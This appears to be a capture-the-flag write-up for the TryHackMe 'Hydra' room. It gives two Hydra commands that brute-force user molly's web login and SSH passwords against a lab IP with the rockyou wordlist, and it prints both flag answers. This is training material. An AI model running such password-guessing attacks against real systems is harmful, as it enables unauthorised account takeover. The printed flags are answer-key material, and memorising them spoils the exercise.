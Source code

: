 
# <div align="center">[Hydra](https://tryhackme.com/r/room/hydra)</div>
<div align="center">
<img src="https://github.com/user-attachments/assets/c4812e0c-6aec-48e2-bfcd-797f3ec9095e" height="200"></img>  
</div>


# Use Hydra to bruteforce molly's web password. What is flag 1?

```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-post-form "/login/:username=^USER^&password=^PASS^:F=incorrect" -t 50
```
```
THM{2673a7dd116de68e85c48ec0b1f2612e
```

# Use Hydra to bruteforce molly's SSH password. What is flag 2?

```
hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.10 -t 50 
```
```
THM{c8eeb0468febbadea859baeb33b2541b}
```
